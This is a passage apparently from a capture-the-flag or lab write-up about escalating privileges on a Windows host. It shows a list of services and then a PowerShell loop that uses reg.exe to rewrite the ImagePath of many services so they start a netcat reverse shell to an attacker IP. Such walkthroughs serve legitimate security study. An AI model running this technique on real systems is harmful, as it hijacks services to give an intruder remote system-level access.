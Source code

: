 ```powershell
Stopped  PrintWorkflowUs... PrintWorkflow
Stopped  RasAcd             Remote Access Auto Connection Driver
Stopped  RasAuto            Remote Access Auto Connection Manager
Running  RasMan             Remote Access Connection Manager
Stopped  RemoteAccess       Routing and Remote Access
Stopped  RmSvc              Radio Management Service
Running  RpcEptMapper       RPC Endpoint Mapper
Running  RpcSs              Remote Procedure Call (RPC)
Stopped  RSoPProv           Resultant Set of Policy Provider
Running  SamSs              Security Accounts Manager
Running  Schedule           Task Scheduler
Stopped  seclogon           Secondary Logon
Stopped  SecurityHealthS... Windows Security Service
Stopped  SEMgrSvc           Payments and NFC/SE Manager
Running  SENS               System Event Notification Service
Stopped  SensorService      Sensor Service
Stopped  SensrSvc           Sensor Monitoring Service
Stopped  smphost            Microsoft Storage Spaces SMP
Running  Spooler            Print Spooler
Stopped  sppsvc             Software Protection
Running  SstpSvc            Secure Socket Tunneling Protocol Se...
Running  SystemEventsBroker System Events Broker
Running  TimeBrokerSvc      Time Broker
Stopped  UevAgentService    User Experience Virtualization Service
Stopped  UnistoreSvc        User Data Storage
Stopped  UserDataSvc        User Data Access
Stopped  UsoSvc             Update Orchestrator Service
Stopped  vds                Virtual Disk
Stopped  WaaSMedicSvc       Windows Update Medic Service
Stopped  WdBoot             Windows Defender Antivirus Boot Driver
Running  WdFilter           Windows Defender Antivirus Mini-Fil...
Running  WdNisDrv           Windows Defender Antivirus Network ...
Running  WdNisSvc           Windows Defender Antivirus Network ...
Running  WinDefend          Windows Defender Antivirus Service
Running  WinHttpAutoProx... WinHTTP Web Proxy Auto-Discovery Se...
Stopped  WpnUserService     Windows Push Notifications User Ser...
Stopped  wuauserv           Windows Update
```

If we look at any service we can get information on its fields and maybe inject a command such as yet another nc reverse shell. We can brute force this by using `reg.exe` to add our command to the `ImagePath`, this path can be determine by doing `reg.exe query <service>` and reading the possible fields.

```powershell
PS C:\inetpub\wwwroot\uploads> Get-Content "C:\inetpub\wwwroot\uploads\ss.txt" | ForEach-Object {reg.exe add "HKLM\System\CurrentControlSet\services\$_" /t REG_EXPAND_SZ /v ImagePath /d "cmd /c C:\inetpub\wwwroot\uploads\nc.exe -e powershell 10.10.14.30 1233" /f} 2> $null
The operation completed successfully.
[...]
The operation completed successfully.
PS C:\inetpub\wwwroot\uploads>
```

